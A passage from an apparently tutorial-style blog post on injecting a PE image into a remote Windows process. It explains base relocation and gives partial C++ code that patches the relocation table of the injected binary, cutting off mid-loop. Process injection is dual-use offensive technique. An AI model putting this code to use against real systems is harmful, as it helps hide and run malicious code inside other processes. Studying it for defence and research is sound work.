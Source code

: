 {% endhighlight %}
![Copy of PE in the remote process](assets/img/posts/20240124/CopyPEOutput.png)


## Image base Relocation

Since the PE was loaded to a different address of the image base address referenced in the NT header, it needs to be patched in order for the binary to resolve addresses of different objects like static variables and other absolute addresses which otherwise would no longer work. The way the windows loader knows how to patch the images in memory is by referring to a relocation table residing in the binary.  

The process of the relocation phase is:
* finding the relocation table and cycling through the relocation blocks
* getting the number of required relocations in each relocation block
* reading bytes in the specified relocation addresses
* applying delta (between source and destination imageBaseAddress) to the values specified in the relocation addresses
* writing the new values at specified relocation addresses
* repeating the above until the entire relocation table is traversed


{% highlight C++ %}
BOOL fixRelocTable(HANDLE pHandle, PIMAGE_SECTION_HEADER peToInjectRelocSection, LPVOID& allocAddrOnTarget, LPVOID peToInjectContent, DWORD64 DeltaImageBase, IMAGE_DATA_DIRECTORY relocationTable)
{
    _dbg("[+] Fixing relocation table.\n");
    if (peToInjectRelocSection == NULL)
    {
        _dbg("No Reloc Table\r\n");
        return TRUE;
    }

    DWORD RelocOffset = 0;
    while (RelocOffset < relocationTable.Size)
    {
        PBASE_RELOCATION_BLOCK currentReloc = (PBASE_RELOCATION_BLOCK)((PBYTE)peToInjectContent + peToInjectRelocSection->PointerToRawData + RelocOffset);
        RelocOffset += sizeof(IMAGE_BASE_RELOCATION);
        DWORD NumberOfEntries = (currentReloc->BlockSize - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(BASE_RELOCATION_ENTRY);
        _dbg("[*] Number of relocation: %d\r\n", NumberOfEntries);

        for (DWORD i = 0; i < NumberOfEntries; i++)
        {
            PBASE_RELOCATION_ENTRY currentRelocEntry = (PBASE_RELOCATION_ENTRY)((PBYTE)peToInjectContent + peToInjectRelocSection->PointerToRawData + RelocOffset);
            RelocOffset += sizeof(BASE_RELOCATION_ENTRY);

            if (currentRelocEntry->Type == 0)
                continue;